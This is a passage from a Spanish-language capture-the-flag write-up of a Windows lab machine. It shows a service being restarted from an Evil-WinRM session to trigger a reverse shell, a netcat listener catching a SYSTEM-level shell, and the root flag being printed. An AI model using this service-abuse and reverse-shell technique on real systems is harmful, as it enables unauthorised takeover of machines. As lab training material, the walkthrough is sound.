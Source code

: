- Y como la tarea es privilegiada ala hora de arrancar el servicio nos va enviar la **reverse shell**.

- Primero vamos a parar el servicio. 

```bash
*Evil-WinRM* PS C:\Users\svc-printer\Documents> sc.exe stop VMTools

SERVICE_NAME: VMTools
        TYPE               : 10  WIN32_OWN_PROCESS
        STATE              : 1  STOPPED
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x0
*Evil-WinRM* PS C:\Users\svc-printer\Documents> 
```

- Ahora lo arrancamos.

```bash
*Evil-WinRM* PS C:\Users\svc-printer\Documents> sc.exe start VMTools
```

- Y recibimos la shell. 

```bash
❯ rlwrap nc -lvnp 443
Listening on 0.0.0.0 443
Connection received on 10.129.95.241 55672
Microsoft Windows [Version 10.0.17763.107]
(c) 2018 Microsoft Corporation. All rights reserved.

whoami
whoami
nt authority\system

C:\Windows\system32>
```

## root flag

```bash
type C:\Users\Administrator\Desktop\root.txt
type C:\Users\Administrator\Desktop\root.txt
d85fffc0c733cc167c158e77fe6eeda2

C:\Windows\system32>
```
